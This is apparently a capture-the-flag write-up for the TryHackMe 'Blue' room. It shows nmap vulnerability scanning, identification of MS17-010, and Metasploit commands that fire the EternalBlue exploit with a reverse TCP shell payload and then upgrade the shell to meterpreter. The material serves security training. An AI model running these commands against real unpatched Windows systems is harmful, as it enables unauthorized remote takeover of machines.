 # [Blue](https://tryhackme.com/room/blue)

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Scanning

scan the machine

```
nmap -A -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109367-28962f61-8943-4d14-8a73-9e5d964af0d3.png)

We can see it's a windows machine name Jon-PC and 3 port under 1000 is opening

![image](https://user-images.githubusercontent.com/90561566/200109397-8209737a-a141-42ab-b58d-0fd91247e152.png)

Nmap also find a lot of vulnerabilities (seem about smb vuln)

```
nmap --script=vuln -T4 10.10.92.237
```

![image](https://user-images.githubusercontent.com/90561566/200109617-23ce7abd-c8a3-4729-bd8b-31bfde219ef9.png)

the answer is CVE-2017-0143 (ms17-010)

## Exploitation

Start Metasploit and use module exploit/windows/smb/ms17_010_eternalblue 

```
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/90561566/200110267-d066ba86-1cd8-4301-b7f4-e7e3c3dd3408.png)

now we need to set RHOSTS

```
set RHOSTS 10.10.92.237
set payload windows/x64/shell/reverse_tcp
exploit
```

if failed, try reboot the target machine or set LHOST with your openvpn ip

background session

![image](https://user-images.githubusercontent.com/90561566/200110728-b322a970-d94b-489c-a342-f782c011b32f.png)

## Privilege Escalation

now, we need convert shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
```














.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
